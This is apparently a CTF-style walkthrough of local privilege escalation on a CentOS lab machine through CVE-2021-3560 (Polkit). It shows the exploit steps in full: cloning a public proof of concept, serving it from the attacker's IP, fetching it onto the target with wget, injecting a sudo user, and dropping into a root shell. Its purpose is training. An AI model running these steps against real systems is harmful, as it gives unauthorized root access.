 This machine is vunerable to CVE-2021-3560. Searching for a POC gave me this:

```bash
git clone https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation#cve-2021-3560-polkit-privilege-esclation-poc
```

(see 2.1 - poc.sh)

next we need to copy the file to the remote machine, we can do this with updog

```bash

cd www

mv CVE-2021-3560-Polkit-Privilege-Esclation/poc.sh .

updog
```

once our webserver is up and running we can wget the file on the target machine and run it

```bash
wget 10.10.14.169:9090/poc.sh
```

```output
Connecting to 10.10.14.169:9090... connected.  
HTTP request sent, awaiting response... 200 OK  
Length: 9629 (9.4K) [text/x-sh]  
Saving to: ‘poc.sh’  
  
poc.sh                                     100%[================================================>]   9.40K  --.-KB/s    in 0.004s     
  
2022-02-07 08:57:22 (2.50 MB/s) - ‘poc.sh’ saved [9629/9629]
```

lets run it a few times and get an account with sudo privilages

```bash

chmod +x poc.sh

./poc.sh -u=skyfire -p=skyfire

```

```
[!] Username set as : skyfire
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username skyfire...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username skyfire  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using sudo - skyfire
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!

```

after we get a successful run, we can su to skyfire and run sudo bash

```bash
su skyfire
sudo bash
```

congrats, we are root!